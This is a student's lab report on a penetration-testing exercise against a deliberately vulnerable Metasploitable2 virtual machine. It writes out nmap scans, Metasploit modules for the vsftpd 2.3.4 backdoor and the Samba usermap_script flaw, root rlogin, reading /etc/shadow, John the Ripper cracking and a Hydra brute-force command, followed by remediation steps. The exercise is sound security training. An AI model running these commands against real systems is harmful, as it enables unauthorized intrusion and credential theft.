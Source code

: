 Stimulating Real-World Network Exploitation and Defense Simulation

Student Name: Ankit Kumar
ERP: 6604992
Course: B.Tech IT
Semester: 4th
Section: B
Date: 18/05/2025

⸻

1. Project Objective

This project simulates real-world cyberattacks in a safe virtual lab to understand penetration testing and defense mechanisms. It covers reconnaissance, scanning, enumeration, exploitation, privilege escalation, password cracking, and security remediation. It teaches how to responsibly identify vulnerabilities using Kali Linux as the attacker and Metasploitable2 as the vulnerable target.

⸻

2. Theory & Background

Penetration Testing (Ethical Hacking) is a simulated attack on a system to evaluate its security posture.

Phases of Penetration Testing:
	1.	Reconnaissance – Passive and active gathering of target information.
	2.	Scanning & Enumeration – Discovering open ports, services, and system details.
	3.	Exploitation – Using vulnerabilities to gain unauthorized access.
	4.	Post-Exploitation – Privilege escalation, persistence, data access.
	5.	Remediation – Securing vulnerabilities to protect systems.

⸻

3. Lab Setup

Component	Details
Attacker OS	Kali Linux (2023 or later)
Target OS	Metasploitable 2
Virtualization	VMware Workstation / VirtualBox
Network Type	Host-Only or Bridged Network

Why Metasploitable?
	•	It contains intentional vulnerabilities for training.
	•	Compatible with Metasploit, Nmap, and John the Ripper.

⸻

4. Tools Used

Tool	Purpose
Nmap	Network scanner for ports, OS, and service detection
Metasploit	Exploitation framework
John the Ripper	Password cracking tool
Netcat / Telnet	Manual banner grabbing and connections


⸻

5. Step-by-Step Tasks with Explanation

⸻

Task 1: Network Discovery and Scanning

Basic Scan

nmap -v 192.168.160.131

	•	-v: Verbose output.
	•	Purpose: Shows basic open ports and host status.

Scan All Ports (0–65535)

nmap -v -p- 192.168.160.131

	•	-p-: Scan all 65535 ports.
	•	Use: To find ports that may be hidden or non-standard.

Service Detection

nmap -v -sV 192.168.160.131

	•	-sV: Detects version of running services.
	•	Helps identify known vulnerabilities in outdated software.

OS Detection

nmap -v -O 192.168.160.131

	•	-O: Attempts to identify the Operating System based on TCP/IP stack fingerprinting.

⸻

Task 2: Enumeration

After scanning, we enumerate:
	•	Open ports and their services
	•	OS details
	•	MAC address, workgroup, etc.

Command Example

nmap -A 192.168.160.131

	•	-A: Aggressive scan includes OS, version, script scanning, traceroute.

⸻

Task 3: Exploitation

⸻

1. Exploit vsftpd 2.3.4 (Backdoor via Port 21)

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.160.131
set RPORT 21
run

	•	Exploits CVE-2011-2523
	•	Vulnerability: Backdoor shell opens when username contains :)

⸻

2. Exploit Samba (SMB Port 445)

search smb_version
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.160.131
run

Then for exploitation:

use exploit/multi/samba/usermap_script
set RHOST 192.168.160.131
run

	•	CVE-2007-2447
	•	Allows arbitrary code execution through username map script.

⸻

3. Exploit R Services (rexec, rlogin, rsh on Ports 512–514)

nmap -p 512,513,514 -sC -sV --script=vuln 192.168.160.131

	•	--script=vuln: Runs vulnerability detection scripts.

If .rhosts allows root login:

rlogin -l root 192.168.160.131


⸻

Task 4: Privilege Escalation

Create a User with Root Privileges

adduser ankit
passwd ankit
usermod -aG sudo ankit

	•	usermod -aG sudo: Adds user to sudoers group for root rights.

⸻

Task 5: Password Hash Extraction & Cracking

1. View Hashed Password

cat /etc/shadow | grep rahul

2. Save Hash to File

nano ankit_hash.txt

(Paste hash)

3. Crack Password using John

john ankit_hash.txt

To show cracked password:

john ankit_hash.txt --show


⸻

6. Remediation Steps

1. FTP (vsftpd 2.3.4)
	•	CVE: CVE-2011-2523
	•	Fix: Upgrade to vsftpd 3.0.5 or switch to SFTP

sudo apt-get update
sudo apt-get install vsftpd


⸻

2. Samba SMB (v3.0.20)
	•	CVE: CVE-2007-2447, CVE-2017-7494
	•	Fix:
	•	Upgrade to Samba 4.20.1
	•	Disable guest access
	•	Edit /etc/samba/smb.conf

⸻

3. R Services
	•	Outdated and insecure
	•	Fix:

sudo systemctl disable rsh.socket rlogin.socket rexec.socket
sudo apt purge rsh-client rlogin rsh-server


⸻

7. Extra Tools and Additions

Hydra (For Brute-force Login)

hydra -l root -P /usr/share/wordlists/rockyou.txt ftp://192.168.160.131

Nikto (Web vulnerability scanner)

nikto -h http://192.168.160.131


⸻

8. Major Learnings
	•	Practical understanding of scanning, exploitation, and remediation
	•	Hands-on with Nmap, Metasploit, and John
	•	Learned user and password handling on Linux
	•	Identified real-world CVEs and fixed them manually
